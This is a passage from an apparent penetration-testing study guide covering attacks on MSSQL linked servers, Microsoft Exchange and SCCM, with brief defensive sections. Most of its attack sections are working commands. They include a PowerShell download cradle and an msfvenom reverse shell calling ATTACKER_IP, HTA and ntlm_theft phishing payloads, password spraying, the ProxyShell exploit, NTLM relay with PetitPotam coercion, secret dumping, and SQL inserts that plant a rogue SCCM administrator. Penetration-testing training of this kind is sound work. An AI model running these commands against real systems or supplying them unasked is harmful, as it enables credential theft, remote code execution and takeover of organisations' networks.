Write-Host (($SMK | ForEach-Object ToString X2) -join '')Step 5: Split pwdhash into IV and Ciphertext:
SELECT name,
SUBSTRING(pwdhash, 5, 16) AS 'IV',
SUBSTRING(pwdhash, 21, LEN(pwdhash) - 20) AS 'Ciphertext'
FROM sys.syslnklgns WHERE LEN(pwdhash) > 0;Step 6: Decrypt with AES using the SMK as key, the extracted IV, and the ciphertext (e.g., via CyberChef AES Decrypt, then decode from UTF-16LE).
Automated approach: NetSPI's Get-MSSQLLinkPasswords PowerShell module automates the entire process.
Import-Module .\Get-MSSQLLinkPasswords.psm1
Get-MSSQLLinkPasswords15.4.4 Methodology
-
EXEC sp_linkedservers; -
SELECT * FROM OPENQUERY(SQL02, 'SELECT IS_SRVROLEMEMBER(''sysadmin'')'); -
EXECUTE ('EXEC xp_cmdshell "whoami";') AT SQL02; -
Import-Module .\Get-MSSQLLinkPasswords.psm1; Get-MSSQLLinkPasswords
Remediation
Use Windows Authentication for linked server connections instead of SQL Server Authentication. Restrict DAC to local connections only. Minimize the number of linked servers. Use least-privilege accounts for linked server authentication.
15.5 MSSQL Tools of the Trade
Two primary tools automate MSSQL attacks: Impacket MSSQLClient (Linux) and PowerUpSQL (Windows/PowerShell).
15.5.1 Impacket MSSQLClient
Built-in commands for automated attack workflows:
| Command | Function |
|---|---|
enum_db | Enumerate databases |
enum_links | Enumerate linked servers |
enum_impersonate | Check impersonatable logins |
enum_logins | Enumerate login users |
enum_users | Enumerate current DB users |
enum_owner | Enumerate DB owner |
exec_as_login {login} | Impersonate login |
enable_xp_cmdshell | Enable xp_cmdshell |
xp_cmdshell {cmd} | Execute command via xp_cmdshell |
sp_start_job {cmd} | Blind execution via SQL Agent |
xp_dirtree {path} | UNC path injection |
use_link {link} | Switch to linked server context |
# Enumerate impersonation targets
SQL> enum_impersonate
# Impersonate sa
SQL> exec_as_login sa
# Command execution
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
SQL> disable_xp_cmdshell
# Lateral movement via linked server
SQL> use_link SQL02
SQL> xp_cmdshell whoami
SQL> use_link localhost # return to original15.5.2 PowerUpSQL
PowerUpSQL is a PowerShell toolkit by NetSPI that automates MSSQL instance discovery, enumeration, privilege escalation, command execution, and lateral movement.
Discovery and Enumeration:
# Import module
Import-Module .\PowerUpSQL.psm1
# Discover MSSQL instances in domain (via SPN enumeration)
Get-SQLInstanceDomain -Verbose
# Get server info
Get-SQLServerInfo -Username "ws_dev" -Password "PASS" -Instance "SQL01"
# Dump info to CSV files
Invoke-SQLDumpInfo -Username "ws_dev" -Password "PASS" -Instance "SQL01"
# Automated vulnerability audit
Invoke-SQLAudit -Username "ws_dev" -Password "PASS" -Instance "SQL01"Privilege Escalation:
# Automatic escalation to sysadmin
Invoke-SQLEscalatePriv -Username "ws_dev" -Password "PASS" -Instance "SQL01" -VerboseCommand Execution:
# Via xp_cmdshell
Invoke-SQLOSCmd -Username "ws_dev" -Password "PASS" -Instance "SQL01" -Command "whoami"
# Via Agent Job (blind)
Invoke-SQLOSCmdAgentJob -Username "ws_dev" -Password "PASS" -Instance "SQL01" -SubSystem "CmdExec" -Command "whoami"
# Via OLE Automation
Invoke-SQLOSCmdOle -Username "ws_dev" -Password "PASS" -Instance "SQL01" -Command "whoami"Lateral Movement (Link Crawling):
# Crawl all linked servers
Get-SqlServerLinkCrawl -Username "ws_dev" -Password "PASS" -Instance "SQL01"
# Execute query across links
$Out = Get-SQLServerLinkCrawl -Username "ws_dev" -Password "PASS" -Instance "SQL01" -Query "SELECT SYSTEM_USER"
foreach ($Server in $Out) { $Server.CustomQuery | ForEach-Object { Write-Host $_.Item(0) } }15.5.3 Methodology
-
impacket-mssqlclient USER:PASS@TARGET -
Import-Module .\PowerUpSQL.psm1; Invoke-SQLAudit -Username "USER" -Password "PASS" -Instance "SQL01" -
Invoke-SQLEscalatePriv -Username "USER" -Password "PASS" -Instance "SQL01" -Verbose -
Get-SqlServerLinkCrawl -Username "USER" -Password "PASS" -Instance "SQL01"
15.6 MSSQL Defensive Considerations
A secure MSSQL Server in an insecure environment is pointless. Defense must cover the database, the server it runs on, applications that interact with it, and the network.
15.6.1 Authentication and Authorization
- Prefer Windows Authentication over SQL Server Authentication (uses Kerberos, has password policies, simpler management)
- Apply the Principle of Least Privilege to all logins and users
- Enforce strong, complex passwords via password policies
- Do not assign additional privileges to the public server role
- Revoke the guest database user's CONNECT permission if not needed
- Disable and remove orphaned users (database users not mapped to any login)
- Revoke sysadmin from
BUILTIN\Administrators(assigned by default during install)
Critical role considerations:
| Role | Risk |
|---|---|
serveradmin | Equivalent to sysadmin (trivial escalation) |
db_securityadmin | Equivalent to db_owner (trivial escalation) |
db_owner | Can drop databases; escalates to sysadmin if in a TRUSTWORTHY database |
15.6.2 Surface Area and Stored Procedures
Keep all unused features disabled. Pay special attention to:
xp_cmdshell: command executionOle Automation Procedures: COM object interaction / code executionclr enabled: run user assembliesshow advanced options: should remain disabled unless necessary
Revoke EXECUTE permissions on dangerous stored procedures:
REVOKE EXECUTE ON xp_dirtree TO public;
REVOKE EXECUTE ON xp_fileexist TO public;
REVOKE EXECUTE ON xp_subdirs TO public;15.6.3 Server, Application, Network, and Audit
- Keep the OS and MSSQL Server up to date with Cumulative Updates and Service Packs
- Run the MSSQL service as an appropriate low-privilege user
- Restrict file permissions on MSSQL Server files
- Host applications and MSSQL on separate servers
- Review all applications for SQL injection vulnerabilities
- Restrict network access to TCP/1433; block public internet access
- Conduct regular security audits (run
Invoke-SQLAuditfrom PowerUpSQL as a minimum)
15.6.4 Methodology
-
REVOKE IMPERSONATE ON Login::sa TO [user]; -
ALTER DATABASE [dbname] SET TRUSTWORTHY OFF; -
REVOKE EXECUTE ON xp_dirtree TO public; -
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure; -
Invoke-SQLAudit -Instance "SQL01"
15.7 Introduction to Exchange
Microsoft Exchange is the dominant enterprise email platform, integrated into nearly every organization for internal and external communication. Currently supported versions are Exchange Server 2016 and 2019. Exchange uses protocols including Exchange Web Services (EWS), Outlook Web App (OWA), MAPI over HTTP, and ActiveSync (EAS).
| Service/Component | Description |
|---|---|
| AutoDiscover | Enables client connection using only username and password |
| Outlook Web App (OWA) | Browser-based email client (typically at mail.company.org or company.org/owa) |
| Global Address List (GAL) | Catalog of all email addresses of AD users |
| Outlook Rules | Automated triggers based on configurable criteria |
The expected login schema is DOMAIN\username. Key views in OWA include Inbox, Drafts, Sent Items, Deleted Items, Junk, and People (which lists all users on the email server with details like roles and phone numbers; valuable for phishing).
15.7.1 Methodology
-
nmap -sCV TARGET -p443,80
15.8 Exchange Enumeration
Microsoft Exchange exposes multiple attack surfaces: user enumeration via OWA and EWS, the Global Address List for harvesting email addresses, and NTLM authentication endpoints that reveal version and configuration details.
15.8.1 User Enumeration
Email address schemas vary across organizations (e.g., j.doe@, jdoe@, john.doe@). Use OSINT (LinkedIn, company websites, business cards) to gather employee names, then generate username wordlists with usernameAnarchy:
# Clone and generate all format variations
git clone https://github.com/urbanadventurer/username-anarchy.git
./username-anarchy --input-file ./names.txt
# Target a specific format
./username-anarchy --list-formats
./username-anarchy --input-file ./names.txt --select-format first.last15.8.2 Exporting the Global Address List
If you already have domain access or a valid email account, export the GAL directly.
From Linux (global-address-list-owa):
wget -q https://raw.githubusercontent.com/pigeonburger/global-address-list-owa/main/emailextract.py
# Modify requests to add verify=False for SSL errors
python3 emailextract.py -i exch01.domain.local -u user@domain -p 'Password!'From Windows (MailSniper):
IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP:8000/MailSniper.ps1')
Get-GlobalAddressList -ExchHostname exch01.domain.local -Username [user] -Password 'Password!' -OutFile globaladdresslist.txt15.8.3 Password Spraying
Password spraying uses a single password against many accounts to avoid lockouts. Choose passwords based on common patterns: CompanyName<YEAR>!, Season<YEAR>!, etc.
From Linux with Ruler:
./ruler-linux64 --domain domain.local --insecure brute --users global_address_list.txt --passwords passwords.txt --verbose -a 4From Windows with MailSniper:
Invoke-PasswordSprayOWA -ExchHostname exch01.domain.local -UserList .\usernames.txt -Password "Password!" -OutFile creds.txt15.8.4 Password Policies and Lockout
Check lockout policies before spraying. A LockoutBadCount of 0 means lockout is disabled:
(Get-DomainPolicy)."SystemAccess"15.8.5 Version Enumeration
Exchange version determines applicable CVEs. Query the eDiscovery endpoint:
curl https://TARGET/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application -k | xmllint --format - | grep versionMatch the version number (e.g., 15.1.2375.7 = Exchange Server 2016 CU22) against Microsoft's build number documentation.
15.8.6 NTLM Endpoint Enumeration
Use ntlmscan to discover NTLM authentication endpoints:
git clone https://github.com/nyxgeek/ntlmscan
python3 ntlmscan.py --host https://TARGETUse Nmap to extract domain information from NTLM endpoints:
sudo nmap -sV --script http-ntlm-info --script-args http-ntlm-info.root=/ews/ -p443 TARGET15.8.7 Methodology
-
./username-anarchy --input-file ./names.txt -
python3 emailextract.py -i exch01.domain.local -u user@domain -p 'Pass' -
(Get-DomainPolicy)."SystemAccess" -
./ruler-linux64 --domain domain.local --insecure brute --users users.txt --passwords pass.txt -
curl https://TARGET/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application -k | xmllint --format - | grep version -
python3 ntlmscan.py --host https://TARGET
15.9 Exchange Vulnerabilities
Exchange Server has been the target of multiple critical vulnerabilities that enable remote code execution and privilege escalation. ProxyShell remains the most impactful, chaining three CVEs for pre-auth RCE.
15.9.1 ProxyShell
ProxyShell is a chain of pre-auth remote code execution vulnerabilities discovered by Orange Tsai in 2021. It allows an attacker to gain SYSTEM access without knowing any passwords.
The chain consists of:
Exploitation with Proxyshell-Exchange:
git clone https://github.com/mr-r3bot/Proxyshell-Exchange
cd Proxyshell-Exchange/
python3 proxyshell.py -u https://TARGET/ -e [email protected]
# Follow prompts: get_shell
# Result: whoami -> nt authority\system15.9.2 Other Notable Vulnerabilities
ProxyLogon (CVE-2021-26855): Unauthenticated command execution using Exchange's Proxy Architecture and Logon mechanism. Affected versions:
| Exchange Version | Vulnerable Build |
|---|---|
| Exchange Server 2019 | < 15.02.0792.010 and < 15.02.0721.013 |
| Exchange Server 2016 | < 15.01.2106.013 |
| Exchange Server 2013 | < 15.00.1497.012 |
Other notable vulnerabilities include ProxyRelay and PrivExchange.
15.9.3 Methodology
-
python3 proxyshell.py -u https://TARGET/ -e [email protected]
Remediation
Apply cumulative updates immediately. Monitor /autodiscover endpoints with YARA rules. Check C:\inetpub\wwwroot\aspnet_client for suspicious files (webshells in PST format). Use strings to identify JScript eval() patterns in suspicious files.
15.10 Exchange Phishing Attacks
A compromised Exchange mailbox provides a trusted platform for phishing internal users. Techniques range from NTLM hash theft via embedded UNC paths to HTML smuggling and HTA payloads for code execution.
15.10.1 Phishing NTLM Hashes
Send an email containing a link to an attacker-controlled SMB share (e.g., \\ATTACKER_IP\sharename\picture.ico). If the client loads the image, Windows automatically authenticates, leaking the NTLMv2 hash.
Limitations: Outbound port 445 must be allowed; Outlook must auto-download images; specific Outlook/Windows settings may block SMB interactions.
15.10.2 Hash Theft via ntlm_theft
ntlm_theft generates 21 types of hash theft documents (HTM, RTF, DOCX, LNK, SCF, URL, etc.):
git clone https://github.com/Greenwolf/ntlm_theft
cd ntlm_theft
python3 ntlm_theft.py -g htm -s ATTACKER_IP -f student
# Start Responder to capture hashes
sudo responder -I tun0Send the generated file as an email attachment. When the user opens it, Responder captures the NTLMv2 hash.
15.10.3 Arbitrary File Execution (HTA)
HTML Applications (HTA) execute as fully trusted applications, bypassing browser security. Use Metasploit's HTA server module:
msfconsole -x "use exploit/windows/misc/hta_server; set LHOST ATTACKER_IP; set LPORT 8443; set SRVHOST ATTACKER_IP; run -j"
# Send the generated URL via email
# When user clicks: Meterpreter session as the email userGadgetToJScript offers additional evasion by generating .NET serialized gadgets that trigger assembly load/execution from JS/VBS/VBA scripts.
15.10.4 Using Responder HTTP Server for Credential Theft
Insert a hyperlink in an email pointing to the attacker's Responder HTTP server. When the user visits the link, Responder prompts for credentials via HTTP Basic/NTLM authentication.
sudo responder -I tun0
# Send email with link: http://ATTACKER_IP/internal-update
# Responder captures cleartext credentials or NTLMv2 hashes15.10.5 HTML Smuggling
HTML smuggling lures victims to a website that uses JavaScript to automatically download a malicious file. The approach embeds a base64-encoded payload in HTML and triggers an automatic download:
# Generate payload
msfvenom -p windows/shell/reverse_tcp LHOST=ATTACKER_IP LPORT=9001 -f exe > shell.exe
base64 -w0 shell.exe # Paste into HTML template15.10.6 Phishing Using CVEs
CVE-2023-35636: Exploits Calendar sharing to steal NTLM hashes. CVE-2023-23397: Exploits Outlook appointment Reminder sounds to coerce NTLM authentication. Both require Outlook installed on the target machine.
15.10.7 Methodology
-
python3 ntlm_theft.py -g all -s ATTACKER_IP -f document -
sudo responder -I tun0 -
msfconsole -x "use exploit/windows/misc/hta_server; set LHOST IP; run -j"
15.11 Exchange Defensive Considerations
Defending Exchange requires aggressive patching, web shell detection, and email-level protections to limit the impact of compromised mailboxes and known vulnerability exploitation.
15.11.1 Detecting ProxyShell
Use YARA rules to monitor for ProxyShell exploitation patterns in log files. The rule EXPL_Exchange_ProxyShell_Successful_Aug21_1 detects successful exploitation by matching patterns like /autodiscover/autodiscover.json followed by /powershell or X-Rps-CAT.
Check C:\inetpub\wwwroot\aspnet_client for webshells (suspicious .aspx files). Use strings to identify JScript eval() patterns.
15.11.2 Updates and Patching
Microsoft delivers quarterly Cumulative Updates (CU) for Exchange. Updates are categorized as Security Updates (SU) or Hotfix Updates (HU). Always keep Exchange up to date and verify against Microsoft's build number documentation.
15.11.3 Email Protection
- Deploy email security solutions (Proofpoint, Microsoft Defender for Office 365, Cisco Secure Email)
- Configure antispam and antimalware settings
- Restrict allowed file extensions for attachments
- Conduct security awareness training against phishing
- Be aware of evilginx-style adversary-in-the-middle phishing frameworks
15.11.4 Methodology
15.12 Introduction to SCCM
System Center Configuration Manager (SCCM), now renamed Microsoft Configuration Manager (ConfigMgr), helps administrators manage servers and workstations in large AD environments. It provides centralized application deployment, patch management, script execution, OS deployment, and configuration management.
15.12.1 SCCM Architecture
| Component | Role |
|---|---|
| Primary Server | Central point of the SCCM site, identified by a site code |
| MSSQL Primary Database | Stores all site data (users, machines, apps, client locations) |
| SMS Provider | Interfaces between the SCCM service and the DB; exposes WMI and AdminService REST API |
| Distribution Point (DP) | Distributes applications, scripts, packages to client machines |
| Management Point (MP) | Orchestrates client-to-server communication and policy delivery |
| Secondary Site Servers | Optional; offload primary server for bandwidth-limited clients |
| Passive Site Servers | High-availability failover for the Primary Server |
15.12.2 Deployment Methods
- Client Push Installation (default, least secure): Uses client push accounts with local admin rights on target machines. SCCM tries each account sequentially and falls back to its machine account if all fail.
- Software Update-Based Installation
- Group Policy Installation
- Manual Installation
- Logon Script Installation
- Package and Program Installation
15.12.3 PXE Initial Access
Pre-Boot Execution Environment (PXE) allows computers to boot over the network. In SCCM environments, PXE servers are common. PXE boot media often contains credentials for domain enrollment, which attackers can extract.
PXEThief (Python, Windows only) queries for PXE boot media and extracts credentials:
# Coerce PXE boot against a specific Distribution Point
python .\pxethief.py 2 [target-ip]
# Download boot.var via TFTP
tftp -i DP_IP GET "\SMSTemp\...\boot.var" "boot.var"
# Generate crackable hash from media variables file
python .\pxethief.py 5 '.\boot.var'
# Output: $sccm$aes128$...
# Crack with hashcat (module 19850)
hashcat -m 19850 --force -a 0 hash /usr/share/wordlists/rockyou.txt
# Decrypt media with cracked password
python .\pxethief.py 3 '.\boot.var' "[password]"
# Extracts: NAA credentials, Task Sequence credentials, domain join accountsWhat PXE media reveals:
15.12.4 Methodology
-
python .\pxethief.py 2 DP_IP -
hashcat -m 19850 --force hash /usr/share/wordlists/rockyou.txt -
python .\pxethief.py 3 '.\boot.var' "crackedpassword"
Remediation
Set a strong PXE boot password. Require PKI certificates for client authentication. Disable F8-Debugging in production PXE boot networks.
15.13 SCCM Auditing and Enumeration
SCCM deployment modifies the AD schema, creating a container CN=System Management,CN=System and new object classes like mssmsmanagementpoint and mssmssite.
15.13.1 Enumeration with sccmhunter
sccmhunter is a comprehensive SCCM enumeration and attack tool:
# Install
git clone https://github.com/garrettfoster13/sccmhunter
cd sccmhunter
python3 -m venv .sccmhunter
source .sccmhunter/bin/activate
pip install -r requirements.txtLDAP Enumeration (find module):
python3 sccmhunter.py find -u USER -p PASS -d domain.local -dc-ip DC_IPThe find command performs three checks:
-
# View results python3 sccmhunter.py show -all
SMB Profiling (smb module): Profiles SCCM servers to identify site roles, signing status, services:
python3 sccmhunter.py smb -u USER -p PASS -d domain.local -dc-ip DC_IP -saveThis identifies for each server: site code, CAS status, SMB signing status, Primary Server/DP/MP/SMS Provider roles, WSUS/MSSQL services.
SharpSCCM (C#, Windows) provides similar capabilities for enumeration, credential gathering, and lateral movement without requiring access to the SCCM administration console.
15.13.2 Pivoting with ligolo-ng
When SCCM infrastructure is on an internal network, set up a tunnel with ligolo-ng:
# On attack host: start proxy
./proxy -selfcert
# On target Windows machine: run agent
.\agent.exe --ignore-cert -connect ATTACKER_IP:11601
# In ligolo-ng proxy: create tunnel
session
interface_create --name internal1
tunnel_start --tun internal1
# Add route on attack host
sudo ip route add [subnet] dev internal115.13.3 Methodology
-
./proxy -selfcert # attack host .\agent.exe --ignore-cert -connect ATTACKER_IP:11601 # target -
python3 sccmhunter.py find -u USER -p PASS -d domain.local -dc-ip DC_IP -
python3 sccmhunter.py smb -u USER -p PASS -d domain.local -dc-ip DC_IP -save
15.14 Abusing SCCM
System Center Configuration Manager (SCCM) manages software deployment and system configuration across enterprise environments. Its credential storage and client push mechanisms create opportunities for lateral movement and privilege escalation.
15.14.1 Credentials Harvesting
Credentials in SCCM can be found in three places:
| Location | Description |
|---|---|
| Device Collection Variables | Key-value pairs on device collections; may store deployment credentials |
| Task Sequence Variables | Steps for actions like domain join; may contain credentials |
| Network Access Accounts (NAAs) | Domain accounts for DP data retrieval when machine is not domain-joined; stored encrypted via DPAPI |
Extracting credentials with sccmhunter (requires admin on the MP server):
# Via WMI repository (current secrets)
python3 sccmhunter.py dpapi -u USER -p PASS -d domain.local -dc-ip DC_IP -target MP_IP -wmi
# Via disk (includes deleted/changed secrets from OBJECTS.DATA)
python3 sccmhunter.py dpapi -u USER -p PASS -d domain.local -dc-ip DC_IP -target MP_IP -disk
# Both methods combined
python3 sccmhunter.py dpapi -u USER -p PASS -d domain.local -dc-ip DC_IP -target MP_IP -bothRecovering NAA via policy spoofing (http module): Create or use a managed machine account to request SCCM policy and extract NAA credentials:
# Create a machine account
addcomputer.py -computer-name 'PWNED$' -computer-pass 'ComputerPass123' -dc-ip DC_IP 'DOMAIN/user':'pass'
# Spoof enrollment to get NAA
python3 sccmhunter.py http -u USER -p PASS -dc-ip DC_IP -cn 'PWNED$' -cp 'ComputerPass123'
# Or use -auto to create machine and recover automatically
python3 sccmhunter.py http -u USER -p PASS -dc-ip DC_IP -auto15.14.2 Client Push Exploitation
The Heartbeat Discovery mechanism sends DDR requests to update client information. These DDR requests can be faked to indicate a machine lacks the SCCM client, causing the Primary Server to attempt Client Push installation, authenticating with each client push account sequentially (these often have local admin or Domain Admin privileges).
Prerequisites:
Attack (from enrolled Windows machine):
# Terminal 1: Start Inveigh to capture NTLM authentication
.\Inveigh.exe
# Terminal 2: Trigger client push to our own IP
.\SharpSCCM.exe invoke client-push -t OUR_IP
# Inveigh captures NTLMv2 hashes from client push accounts and machine accountCaptured hashes can be cracked or relayed to other systems where those accounts have admin access.
15.14.3 Methodology
-
python3 sccmhunter.py dpapi -u USER -p PASS -d domain.local -dc-ip DC_IP -target MP_IP -wmi -
python3 sccmhunter.py http -u USER -p PASS -dc-ip DC_IP -auto -
.\SharpSCCM.exe invoke client-push -t TARGET_IP
15.15 SCCM Site Takeover I - NTLM Relay to MSSQL Site Database
When the primary MSSQL database is on a separate server from the Primary Server, the Primary Server's machine account must be a local admin on the DB server. This creates an NTLM relay opportunity.
15.15.1 Attack Theory
If NTLM authentication can be obtained from the Primary Server (via DDR enrollment or PetitPotam/SpoolSample coercion), it can be relayed to the DB server's SMB or MSSQL service. Relaying to MSSQL allows writing directly to the SCCM database to add a controlled user as Full Administrator.
15.15.2 Attack Steps
Step 1: Set up ntlmrelayx targeting the MSSQL database server:
# Clone latest Impacket
git clone https://github.com/fortra/impacket
cd impacket && python3 -m venv .impacket && source .impacket/bin/activate && pip install .
# Start relay targeting MSSQL with SOCKS
python3 examples/ntlmrelayx.py -t "mssql://SQL_IP" -smb2support -socksStep 2: Coerce authentication from SCCM Primary Server:
# PetitPotam coercion
python3 PetitPotam.py -u USER -p 'PASS' -d 'domain.local' ATTACKER_IP SCCM01_IPStep 3: Connect to relayed MSSQL session via SOCKS:
proxychains4 -q python3 examples/mssqlclient.py 'DOMAIN/SCCM01$'@SQL_IP -windows-auth -no-passStep 4: Add a Full Administrator to the SCCM database:
-- Select SCCM database
USE CM_HTB;
-- View existing admins
SELECT * FROM RBAC_Admins;
-- Insert new admin (need SID in binary format)
INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite)
VALUES (0x0105000000000005150000004b2233992a9592e91111a99da4f040000,'DOMAIN\attacker',0,0,'','','','','HTB');
-- View existing roles
SELECT * FROM RBAC_ExtendedPermissions;
-- Add Full Administrator roles (use the new AdminID)
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (NEW_ADMIN_ID,'SMS0001R','SMS00ALL','29');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (NEW_ADMIN_ID,'SMS0001R','SMS00001','1');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (NEW_ADMIN_ID,'SMS0001R','SMS00004','1');Convert SID to binary format (PowerShell):
function Convert-StringSidToBinary {
param ([Parameter(Mandatory=$true)] [string]$StringSid)
$sid = New-Object System.Security.Principal.SecurityIdentifier $StringSid
$binarySid = New-Object byte[] ($sid.BinaryLength)
$sid.GetBinaryForm($binarySid, 0)
$binarySidHex = ($binarySid | ForEach-Object { $_.ToString("X2") }) -join ''
echo "0x$($binarySidHex.ToLower())"
}
Convert-StringSidToBinary S-1-5-21-...-1111Step 5: Verify admin was added:
python3 sccmhunter.py admin -u attacker -p 'Pass' -ip SMS_PROVIDER_IP
() C:\ >> show_admins15.15.3 Methodology
-
python3 ntlmrelayx.py -t "mssql://SQL_IP" -smb2support -socks -
python3 PetitPotam.py -u USER -p PASS -d domain.local ATTACKER_IP SCCM01_IP -
proxychains4 -q python3 mssqlclient.py 'DOMAIN/SCCM01$'@SQL_IP -windows-auth -no-pass
15.16 SCCM Site Takeover II - NTLM Relay to SMS Provider and Passive Server
Advanced SCCM attacks leverage NTLM relay against the SMS Provider's AdminService API and passive site server roles to achieve full site takeover without requiring existing SCCM administrator credentials.
15.16.1 NTLM Relay to SMS Provider AdminService API
The Primary Server account is a member of the SMS Admins group, giving it access to the WMI interfaces and AdminService REST API on the SMS Provider. If the SMS Provider is on a separate server, relaying the Primary Server's NTLM auth to the AdminService API (which accepts NTLM and rarely checks signatures) allows adding a Full Administrator via the SMS_Admin WMI class.
# Clone Impacket fork with SCCM relay support
git clone -b feature/relay-sccm-adminservice --single-branch https://github.com/garrettfoster13/impacket.git relay-sccm
cd relay-sccm && python3 -m venv .sccmrelay && source .sccmrelay/bin/activate && pip install .
# Start relay targeting AdminService API
python3 ntlmrelayx.py -t https://SMS_PROVIDER_IP/AdminService/wmi/SMS_Admin -smb2support --adminservice --logonname "DOMAIN\attacker" --displayname "DOMAIN\attacker" --objectsid S-1-5-21-...-SID
# Coerce authentication
python3 PetitPotam.py -u USER -p PASS -d domain.local ATTACKER_IP SCCM01_IP
# Success: "Server returned code 201, attack successful"15.16.2 NTLM Relay from Passive Server
If a passive site server exists for high availability, its machine account must be a local admin on the active site server and all SCCM systems. Relaying the passive server's NTLM auth to the active server's SMB service yields administrative access.
# Set up relay to Primary Server SMB with SOCKS
ntlmrelayx.py -t SCCM01_IP -smb2support -socks
# Coerce authentication from passive server
python3 PetitPotam.py -u USER -p PASS -d domain.local ATTACKER_IP SCCM02_IP
# Use the SOCKS session to dump secrets
proxychains4 -q secretsdump.py 'DOMAIN/SCCM02$'@SCCM01_IP -no-passThe dumped machine account hash can then be used via Pass-The-Hash to authenticate to the SMS Provider and add a new Full Administrator:
python3 sccmhunter.py admin -u 'SCCM01$' -p aad3b435b51404eeaad3b435b51404ee:NTHASH -ip SMS_PROVIDER_IP
() C:\ >> show_admins15.16.3 Methodology
-
python3 ntlmrelayx.py -t https://SMS_IP/AdminService/wmi/SMS_Admin -smb2support --adminservice --logonname "DOMAIN\user" --objectsid SID -
ntlmrelayx.py -t SCCM01_IP -smb2support -socks
15.17 SCCM Post-Exploitation
With Full Administrator rights on SCCM, you can deploy applications and scripts on managed assets, enumerate systems, and coerce client authentication. SCCM's CMPivot service on the Management Point enables enumeration and administrative tasks via the AdminService REST API.
15.17.1 Privileged Account and Computer Enumeration
SharpSCCM on Windows can also enumerate devices:
# List SCCM administrators
python3 sccmhunter.py admin -u USER -p PASS -ip SMS_PROVIDER_IP
() C:\ >> show_admins
# Get device information
() C:\ >> get_device TARGET_NAME
# Interact with device via CMPivot
() C:\ >> interact RESOURCE_ID
# List local administrators on target
(RESOURCE_ID) C:\ >> administrators
# List files on target
(RESOURCE_ID) C:\ >> ls# Get specific device info
.\SharpSCCM.exe get devices -n TARGET_NAME -sms SMS_IP
# Get primary users
.\SharpSCCM.exe get primary-users -u USERNAME -sms SMS_IP
# Get all active SCCM clients
.\SharpSCCM.exe get devices -w "Active=1 and Client=1" -sms SMS_IP15.17.2 Application Deployments
As an SCCM Full Administrator, deploy applications to target machines. Using a UNC path for the application allows intercepting NTLM authentication (for relay attacks) or executing a malicious payload.
# Step 1: Validate admin privileges
.\SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames -sms SMS_IP
# Step 2: Create application (with -s for SYSTEM context, using UNC path)
.\SharpSCCM.exe new application -s -n HTB_application -p \\ATTACKER_IP\share\test.exe -sms SMS_IP
# Step 3: Create device collection
.\SharpSCCM.exe new collection -n "new_collection" -t device -sms SMS_IP
# Step 4: Add target to collection
.\SharpSCCM.exe new collection-member -d TARGET_NAME -n "new_collection" -t device -sms SMS_IP
# Step 5: Create deployment
.\SharpSCCM.exe new deployment -a HTB_application -c "new_collection" -sms SMS_IP
# Step 6: Force update (optional, may not always work)
.\SharpSCCM.exe invoke update -n "new_collection" -sms SMS_IPOn the attack host, capture NTLM authentication with Responder (both machine account and NAA will attempt to authenticate).
15.17.3 Script Deployments
SCCM permits deploying and executing PowerShell scripts on enrolled machines. However, by default, an administrator cannot both create and approve a script. A second admin account is needed for approval.
Bypass: Use admin privileges to promote a controlled account (e.g., a created machine account) to Full Administrator, then use it as the approval account.
# Promote machine account to Full Admin
python3 sccmhunter.py admin -u USER -p PASS -ip SMS_IP
() C:\ >> interact RESOURCE_ID
(RESOURCE_ID) C:\ >> add_admin PWNED$ S-1-5-21-...-SID
# Use alternate approval credentials to execute script
python3 sccmhunter.py admin -u USER -p PASS -ip SMS_IP -au 'PWNED$' -ap ComputerPass123
() C:\ >> interact RESOURCE_ID
(RESOURCE_ID) C:\ >> script /path/to/cmd.txt
# Result: nt authority\system on target15.17.4 Methodology
-
python3 sccmhunter.py admin -u USER -p PASS -ip SMS_IP -
() C:\ >> get_device TARGET -
() C:\ >> interact RESOURCE_ID (ID) C:\ >> administrators -
.\SharpSCCM.exe new application -s -n AppName -p \\ATTACKER_IP\share\payload.exe -sms SMS_IP -
(ID) C:\ >> add_admin PWNED$ SID -
python3 sccmhunter.py admin -u USER -p PASS -ip SMS_IP -au 'PWNED$' -ap Pass (ID) C:\ >> script /path/to/script.txt
15.18 SCCM Defensive Considerations
Most SCCM attacks depend on weak security settings. Proper configuration significantly reduces the attack surface.
15.18.1 Defending Configuration Manager Servers
- Install hotfix KB15599094 and disable NTLM for client push installation
- Utilize Enhanced HTTP and deactivate Network Access Accounts
- Disable automatic site-wide client push installation; use software update-based installation instead
- Set a strong PXE boot password
- Disable "F8-Debugging" (uncheck "Enable command support") in production PXE networks
- Require PKI certificates for client authentication to prevent rogue device registration
- Enable MFA for SMS Provider calls
15.18.2 Domain and Server Hardening
- Avoid using over-privileged credentials (e.g., Domain Admins) for NAA/client push/domain join/task sequences/collection variables
- Do not enable WebClient on site systems (prevents coercion via HTTP)
- Avoid managing tier-zero assets (domain controllers) with ConfigMgr
- Access the ConfigMgr console using accounts in the same tier as managed devices
- Require SMB signing on all site systems
- Enforce LDAP signing or channel binding on domain controllers
- Require Extended Protection for Authentication (EPA) on AD CS servers
- Disable NAA accounts in AD after transitioning to Enhanced HTTP
- Set MachineAccountQuota to 0 for non-admin users
- Remove unnecessary Extended Rights assignments
- Transition from legacy LAPS to Windows LAPS with password encryption
15.18.3 Database Security
- Enable Extended Protection for Authentication (EPA) on the site database to prevent MSSQL relay
- Avoid linking other databases to the site database, especially with DBA privileges
- Set strong passwords for DBA accounts
15.18.4 Firewall and Network
- Block all unnecessary connections to site systems, especially SMB and MSSQL
- Restrict PXE boot support to authorized VLANs only
- Implement proper network segmentation between SCCM infrastructure and general user networks
15.18.5 Security Monitoring
- Monitor for suspicious activity on site systems and site accounts
- Watch for site system computer accounts authenticating from unexpected IP addresses
- Track client push installation accounts authenticating from anywhere other than the Primary Server
- Deploy canary Network Access Accounts and monitor for any authentication
- Ensure legitimate NAAs authenticate only to Distribution Points
